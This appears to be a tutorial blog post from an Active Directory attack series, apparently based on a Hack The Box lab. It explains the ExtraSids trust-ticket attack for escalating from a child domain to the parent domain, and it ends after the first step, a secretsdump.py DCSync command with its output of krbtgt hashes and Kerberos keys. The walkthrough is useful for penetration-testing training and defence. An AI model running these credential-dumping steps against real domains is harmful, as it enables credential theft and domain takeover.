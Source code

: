 ```yaml
---
title: "Active Directory Series - Introduction to the ExtraSids Attack - From Linux - Episode05"
datePublished: Thu Mar 28 2024 06:23:11 GMT+0000 (Coordinated Universal Time)
cuid: cluaulyss000108jn4b4v9wrj
slug: active-directory-series-introduction-to-the-extrasids-attack-from-linux-episode05

---
```


## **Introduction**

This guide will walk you through the detailed process of attacking domain trusts to escalate privileges from a compromised child domain to the parent domain. By forging trust tickets using the child domain's `krbtgt` hash and SID, along with the target user and Enterprise Admins SID from the parent domain, you can gain administrative access to the root domain.

### **Key concepts:**

* **Domain trusts** enable access and resource sharing between domains.
    
* **Trust tickets (TGTs)** prove a user's identity when accessing resources across trusts.
    
* **The**`krbtgt` account hash is used to sign all tickets in a domain.
    
* **The domain SID** is a unique identifier for the domain.
    
* **The golden ticket attack** forges trust tickets to access any resource/account.
    

## **Information Needed**

To perform this attack, you need to gather the following information:

1. The NTLM hash of the `krbtgt` account in the child domain.
    
2. The SID of the child domain.
    
3. The FQDN of the child domain.
    
4. The name of a target user to impersonate (doesn't need to be a real user).
    
5. The SID of the Enterprise Admins group in the root domain.
    

## **Dumping the**`krbtgt` Hash

Use [`secretsdump.py`](http://secretsdump.py) from Impacket to perform a DCSync attack against the child domain controller. Specify the FQDN, a domain admin username, password, and target just the `krbtgt` user:

```powershell
secretsdump.py CHILDDOMAIN/user:password@CHILDDC -just-dc-user CHILDDOMAIN/krbtgt

┌─[htb-student@ea-attack01]─[~]
└──╼ $secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt
Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9d765b482771505cbe97411065964d5f:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:d9a2d6659c2a182bc93913bbfa90ecbead94d49dad64d23996724390cb833fb8
krbtgt:aes128-cts-hmac-sha1-96:ca289e175c372cebd18083983f88c03e
krbtgt:des-cbc-md5:fee04c3d026d7538
```
